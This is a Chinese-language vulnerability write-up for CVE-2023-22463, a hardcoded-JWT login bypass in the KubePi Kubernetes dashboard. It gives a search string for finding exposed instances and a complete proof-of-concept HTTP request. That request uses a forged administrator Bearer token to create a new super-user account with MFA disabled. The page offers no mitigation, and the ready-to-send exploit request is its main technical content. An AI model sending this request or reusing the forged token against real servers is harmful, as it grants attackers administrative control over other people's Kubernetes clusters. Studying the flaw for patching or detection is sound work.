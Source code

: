 # KubePi JwtSigKey 登陆绕过漏洞 CVE-2023-22463

## 漏洞描述

KubePi 是一个现代化的 K8s 面板。KubePi 允许管理员导入多个 Kubernetes 集群，并且通过权限控制，将不同 cluster、namespace 的权限分配给指定用户。它允许开发人员管理 Kubernetes 集群中运行的应用程序并对其进行故障排查，供开发人员更好地处理 Kubernetes 集群中的复杂性。

KubePi 中存在 JWT硬编码，攻击者通过硬编码可以获取服务器后台管理权限，添加任意用户。

## 漏洞影响

KubePi

## 网络测绘

```
"kubepi"
```

## 漏洞复现

登陆页面

![image-20230828145208969](images/image-20230828145208969.png)

验证POC

```
POST /kubepi/api/v1/users HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.127 Safari/537.36
accept: application/json
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJuaWNrTmFtZSI6IkFkbWluaXN0cmF0b3IiLCJlbWFpbCI6InN1cHBvcnRAZml0MmNsb3VkLmNvbSIsImxhbmd1YWdlIjoiemgtQ04iLCJyZXNvdXJjZVBlcm1pc3Npb25zIjp7fSwiaXNBZG1pbmlzdHJhdG9yIjp0cnVlLCJtZmEiOnsiZW5hYmxlIjpmYWxzZSwic2VjcmV0IjoiIiwiYXBwcm92ZWQiOmZhbHNlfX0.XxQmyfq_7jyeYvrjqsOZ4BB4GoSkfLO2NvbKCEQjld8

{
  "authenticate": {
       "password": "{{randstr}}"
  },
  "email": "{{randstr}}@qq.com",
  "isAdmin": true,
  "mfa": {
          "enable": false
   },
  "name": "{{randstr}}",
  "nickName": "{{randstr}}",
  "roles": [
       "Supper User"
  ]
}
```

![image-20230828145242203](images/image-20230828145242203.png)